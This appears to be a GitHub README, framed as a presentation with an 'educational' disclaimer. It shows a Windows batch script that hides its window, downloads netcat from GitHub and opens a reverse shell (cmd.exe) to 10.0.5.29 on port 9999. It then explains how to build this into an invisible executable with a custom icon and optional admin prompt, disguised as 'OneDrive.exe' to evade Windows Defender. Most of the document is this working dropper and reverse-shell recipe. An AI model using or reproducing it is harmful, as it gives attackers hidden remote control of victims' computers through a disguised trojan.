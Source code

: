 # Bypassing-Windows-Defender-for-fun
Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in.
Let’s take a look at the script we are using.
`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :\n
`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`
